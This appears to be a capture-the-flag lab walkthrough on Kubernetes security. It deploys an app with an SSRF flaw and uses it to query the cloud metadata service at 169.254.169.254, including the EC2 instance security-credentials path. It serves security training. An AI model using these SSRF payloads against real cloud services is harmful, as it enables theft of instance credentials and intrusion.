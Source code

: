 # K8S Security: Exploiting SSRF in Kubernetes

SSRF (Server Side Request Forgery) has become a very popular attack in cloud native environments.  SSRF allows an attacker to trick the server to make an internal call (usually a 169.254, non addressable IP) to an metadata service.  Metadata services contain all sorts of information about currently running cloud instances and it's used to manage, configure and access other cloud services. 

> Instance metadata is data about your instance that you can use to configure or manage the running instance. **Instance metadata can be accessed at the IP address 169.254.169.254 which is a link-local address and is valid only from the instance.**
> 

The IP block `169.254.0.0/16` is reserved for [link-local IPv4 addresses.](http://tools.ietf.org/html/rfc3927)

[Retrieve instance metadata.](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)

[Azure Instance Metadata Service for Windows - Azure Virtual Machines.](https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service?tabs=windows)

[Storing and retrieving instance metadata.](https://cloud.google.com/compute/docs/storing-retrieving-metadata)

In this challenge, we will deploy an app to our cluster that has an SSRF vulnerability.  We will exploit  the vulnerability to access the metadata service and get the flag.

1. Deploy the challenge.
```
kubectl apply -f 18_deployment_starwars_ssrf.yaml
```

2. Get endpoint of the service.

```
kubectl get svc
```
![service](https://i.postimg.cc/KGShzFqX/18-service1.png)

![service2](https://i.postimg.cc/81YbGzCG/18-service2.png)

```
http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

![service3](https://i.postimg.cc/BJkpFBrD/18-service4.png)

![results](https://i.postimg.cc/7qGcjhD3/18-results.png)

[http://169.254.169.254/latest/meta-data/ami-id](http://169.254.169.254/latest/meta-data/ami-id)

![results3](https://i.postimg.cc/vMPGs1Rk/18-results3.png)

3. [Submit the flag.](https://devslop.ctfd.io/challenges#Challenge%2018-11) **Hint available**

4. Clean up.
```
kubectl delete -f 18_deployment_starwars_ssrf.yaml
```
